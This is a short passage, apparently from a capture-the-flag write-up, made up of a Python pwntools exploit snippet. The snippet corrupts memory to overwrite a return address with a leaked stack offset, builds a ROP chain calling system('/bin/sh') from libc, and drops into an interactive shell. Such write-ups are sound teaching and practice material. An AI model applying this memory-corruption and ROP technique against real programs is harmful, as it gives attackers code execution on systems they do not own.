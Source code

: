 ```python
for member in fakestruct:
    push(convert(member))

shrink() # Trigger the malloc back to heap
rip = stackleak - 0x130
push(convert(rip)) # Change storage pointer to rip

for i in range(5):
    pop() # Set size to 0, clean storage

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret'])[0])
rop.system(next(libc.search(b'/bin/sh\0')))

for val in rop.build(): # Turn ROP chain to a list
    push(convert(val))

io.sendlineafter(b'> ', b'4') # Trigger return

io.interactive()
```
{% endcode %}
